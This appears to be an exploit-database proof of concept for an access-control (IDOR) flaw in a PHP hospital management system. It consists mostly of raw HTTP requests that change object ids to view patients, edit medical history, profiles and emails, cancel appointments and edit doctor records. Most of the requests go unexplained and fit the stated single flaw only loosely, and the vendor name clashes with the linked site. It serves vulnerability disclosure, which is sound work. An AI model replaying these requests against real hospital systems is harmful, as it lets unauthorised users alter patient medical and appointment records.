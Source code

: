 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to add medical history for patient who is managed by other doctor(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hospital/hms/doctor/view-patient.php?viewid=2(CHANGE HERE) HTTP/1.1
...

bp=90&bs=6.9&weight=90&temp=37&pres=AAAAA&submit=
```



POST /hospital/hms/edit-profile.php HTTP/1.1
Host: localhost:8190
Content-Length: 80
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/edit-profile.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close

fname=user1&address=aaaaaa&city=abbb&gender=male&uemail=user2%40test.com&submit=


POST /hospital/hms/change-emaild.php HTTP/1.1
Host: localhost:8190
Content-Length: 30
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/change-emaild.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close

email=user2%40test.com&submit=


POST /hospital/hms/book-appointment.php HTTP/1.1
Host: localhost:8190
Content-Length: 93
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/book-appointment.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close

Doctorspecialization=Orthopedics&doctor=4&fees=0&appdate=2023-12-30&apptime=9%3A00+PM&submit=

GET /hospital/hms/appointment-history.php?id=6&cancel=update HTTP/1.1
Host: localhost:8190
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/appointment-history.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close



GET /hospital/hms/doctor/appointment-history.php?id=3&cancel=update HTTP/1.1
Host: localhost:8190
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/doctor/appointment-history.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close


POST /hospital/hms/admin/edit-doctor.php?id=4 HTTP/1.1
Host: localhost:8190
Content-Length: 132
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/admin/edit-doctor.php?id=4
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close

Doctorspecialization=Orthopedics&docname=user1d&clinicaddress=aaaaaa&docfees=20&doccontact=123456&docemail=user1d%40test.com&submit=

